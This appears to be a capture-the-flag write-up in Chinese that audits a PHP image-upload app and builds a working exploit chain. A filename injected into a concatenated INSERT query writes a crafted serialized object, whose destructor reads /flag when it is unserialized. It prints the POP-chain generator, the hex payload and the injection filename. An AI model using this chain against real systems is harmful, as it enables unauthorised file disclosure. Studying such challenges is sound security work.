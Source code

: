 ![[Pasted image 20230301002851.png|500]]

![[Pasted image 20230301003051.png]]

```php
public function view_files($path){
	if ($this->ifview == False){
		return False;
		//The function is not yet perfect, it is not open yet.
	}
	$content = file_get_contents($path);
	echo $content;
}
```

`helper.php`中存在`file_get_contents`，但是需要设置`ifview`为`true`，于是推测有可利用的反序列化漏洞

# 控制反序列化结果

```php
public function Get_All_Images(){
	$sql = "SELECT * FROM images";
	$result = mysqli_query($this->con, $sql);
	if ($result->num_rows > 0){
		while($row = $result->fetch_assoc()){
			if($row["attr"]){
				$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
				$attr = unserialize($attr_temp);
			}
			echo "<p>id=".$row["id"]." filename=".$row["filename"]." path=".$row["path"]."</p>";
		}
	}else{
		echo "<p>You have not uploaded an image yet.</p>";
	}
	mysqli_close($this->con);
}
```

`shell.php`中对查询结果的`attr`列进行了反序列化

```php
public function insert_array($data)
{	
	$con = ...;
	$sql_fields = array();
	$sql_val = array();
	foreach($data as $key=>$value){
		$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
		$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
		$sql_fields[] = "`".$key_temp."`";
		$sql_val[] = "'".$value_temp."'";
	}
	$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
	mysqli_query($con, $sql);
	// ...
}
```

`helper.php`中`helper`类的`insert_array`方法存在对数据库的写入，方式是简单的字符串拼接

`insert_array`由`save`方法调用，而`save`又被`upload`调用

```php
public function upload($input="file")
{
	$fileinfo = $this->getfile($input);
	$array = array();
	$array["title"] = $fileinfo['title'];
	$array["filename"] = $fileinfo['filename'];
	$array["ext"] = $fileinfo['ext'];
	$array["path"] = $fileinfo['path'];
	$img_ext = getimagesize($_FILES[$input]["tmp_name"]);
	$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
	$array["attr"] = serialize($my_ext);
	$id = $this->save($array);
}
```

可以看到`array["attr"]`为`my_ext`的序列化结果，而`my_ext`完全由图像的宽高决定

于是尝试对其它`array`的元素下手，利用上面发现的字符串拼接查询实现SQL注入对`attr`列任意写入

`array`的其它元素由`fileinfo`复制过来，而`fileinfo`由`getfile`方法获得

```php
public function getfile($input) => $this->check($_FILES[$input]);
public function check($info)
{
	$basename = substr(md5(time().uniqid()),9,16);
	$filename = $info["name"];
	$ext = substr(strrchr($filename, '.'), 1);
	$cate_exts = array("jpg","gif","png","jpeg");
	if(!in_array($ext,$cate_exts)){
		die("<p>Please upload the correct image file!!!</p>");
	}
	$title = str_replace(".".$ext,'',$filename);
	return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
}
```

`'filename'=>$basename`，`basename`是随机生成，不可控

`'ext'=>$ext`，`ext`为上传文件后缀名，又有白名单检测，不可控

`'path'=>$this->folder.$basename`，保存目录名拼上随机生成文件名，不可控

`'title'=>$title`，`title`为上传文件名去掉后缀，可控

于是可以通过改变上传文件的文件名来控制写入`attr`列的内容

# POP链构造

```php
function __destruct(){
	# Read some config html
	$this->view_files($this->config);
}
```

`helper`直接存在一个`__destruct`魔术方法，设置`config`为`/flag`即可

```php
<?php

class helper {
    protected $ifview = true;
    protected $config = "/flag";
}
print bin2hex(serialize(new helper()));
```

得到

```
4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d
```

文件名

```
1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d),('1.jpg
```

![[Pasted image 20230301021418.png|1000]]

```
/show.php
```

![[Pasted image 20230301021802.png|1000]]

#Web #PHP #代码审计 #serialization #SQL注入